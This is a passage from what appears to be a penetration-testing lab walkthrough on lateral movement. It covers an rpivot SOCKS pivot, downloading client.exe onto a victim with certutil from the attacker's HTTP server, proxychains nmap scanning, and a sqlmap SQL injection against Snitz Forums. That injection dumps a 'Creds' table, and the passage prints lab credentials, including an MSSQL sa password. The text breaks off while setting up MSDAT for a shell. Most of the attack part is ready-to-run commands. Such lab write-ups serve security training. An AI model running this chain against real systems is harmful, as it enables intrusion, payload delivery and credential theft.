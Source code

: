 # Lateral Movement 1 - Forum & DB

- [Lateral Movement 1 - Forum & DB](#lateral-movement-1---forum--db)
  - [Neighbor discovery](#neighbor-discovery)
  - [Proxy using rpivot](#proxy-using-rpivot)
  - [Enumeration](#enumeration)
  - [10.1.3.1 - Gitlab / Jenkins](#10131---gitlab--jenkins)
  - [10.1.3.2 - Snitz Forums](#10132---snitz-forums)
  - [Getting a shell](#getting-a-shell)

----

## Neighbor discovery

On the Scientist machine, do a `arp` to discover the neighbour:

```
arp -a
```

![picture 28](images/6f3745a7e9de4b5df226dab4540ce0524b58902faa94351e73d9b9133e427b5a.png)  

<br/>

## Proxy using rpivot

On the attacker machine, first clone the repo:

```
git clone https://github.com/klsecservices/rpivot.git
```

Also download the rpivot Windows client executable:

```
cd /usr/share/rpivot/ && wget https://github.com/klsecservices/rpivot/releases/download/v1.0/client.exe
```

![picture 23](images/69e0242b39fb852b687d019571ff77e87b48682fc608be5661dfc5783cd8abcc.png)  

<br/>

Serve `client.exe` using python http server and download it from the Scientist machine:

```
# Attacker
python3 -m http.server 80
```

```
# Scientist machine
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

![picture 24](images/9cfcd47851566013075f1e860e8ebbac5825adcfee02864665e22016ba763e49.png)  


<br/>

On the attacker machine, launch a rpivot server:

```
python server.py --server-port 8080 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

Then on the Scientist machine, connect to the rpivot server:

```
client.exe --server-ip 192.168.100.11 --server-port 8080
```

![picture 25](images/7e53d48f497bcadb6162d0fa995054cc4027390e8dad4b9d52913e50588280fe.png)  

![picture 26](images/b6f3223437bec6aeca2571b4d4342092165aa8c602c00302bef65da249ee9eed.png)  

<br/>

Modify `/etc/proxychains.conf` to let it use SOCK4 proxy on port 9051:

![picture 27](images/9bbb14e76912c64a077fbfd3fd4a186cb211f6378387c6ec730ffa8f286d54e8.png)  

<br/>

## Enumeration

Use `proxychains` with `nmap` to enumerate the hosts discovered by `arp`:

```
proxychains nmap -Pn -sT 10.1.3.1-2 -p 22,139,80 --min-rate 10000
```

![picture 29](images/2092306e9323966b62b7ac4d2ad1c64b52854be08e9a1aba033c1036becfbb39.png)  

<br/>

## 10.1.3.1 - Gitlab / Jenkins

Refer to Path 1

<br/>

## 10.1.3.2 - Snitz Forums

Use firefox with foxyproxy pointing to SOCK4 proxy on tcp/9051:

![picture 30](images/7ebb48e1600dc3680de1b4655b5ea2004074b912773850b99196061f6e3ef86b.png)  

Use the obtained IIS credential:
`iisadmin` \ `Head!!S%$#@!`

![picture 31](images/4b0f1b05208ffcd5d1b5149b0b5ca5aa72bc4359deb8dab8f2a48be6d95692d1.png)  

![picture 32](images/d319517e43ca033bb25895c312302828afed15dbb337df1d1af0b5612c9b21be.png)  

* Web App Version:  Snitz Forums 2000 Version 3.1 SR4

<br/>

This particular version is known to have an SQL injection exploit:

- https://www.exploit-db.com/exploits/3321

<br/>

With the valid header, use `sqlmap` to exploit. First list the available databases:

![picture 33](images/ac442fee8d3237c60b03520385cccb7d3ffc8eb00fed062bb4c63df58a48a218.png)  


```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U --dbs
```

![picture 34](images/39c7b6a8694264f90257b215c952a13a6600b00f4de9f64567e683f15d811b55.png)  

<br/>

Check the tables in the DB `Sensitive-DB`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB --tables
```

![picture 35](images/256780fc91bceab6687128a4577a4185ffa818d5bd9508aeda0f5fe1e1ef8a71.png)  

<br/>

Check the table `Creds`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB -T Creds --dump --threads 10
```

![picture 37](images/20a9e291046b9086a8d36b358dfca3561ced043b454dfbb5e8c426ea1488a913.png)  

- Note that `sa` is the root user of MSSQL database.
  - `sa` / `SAAdmin!@#$%`

<br/>

## Getting a shell

First on the attacker machine, clone `MSDAT`:<br/>
https://github.com/quentinhardy/msdat

```
cd /usr/share && git clone https://github.com/quentinhardy/msdat.git
```

<br/>

Install the dependencies:

```
sudo apt-get install freetds-dev 
sudo pip install cython colorlog termcolor pymssql argparse
sudo pip install argcomplete && sudo activate-global-python-argcomplete
```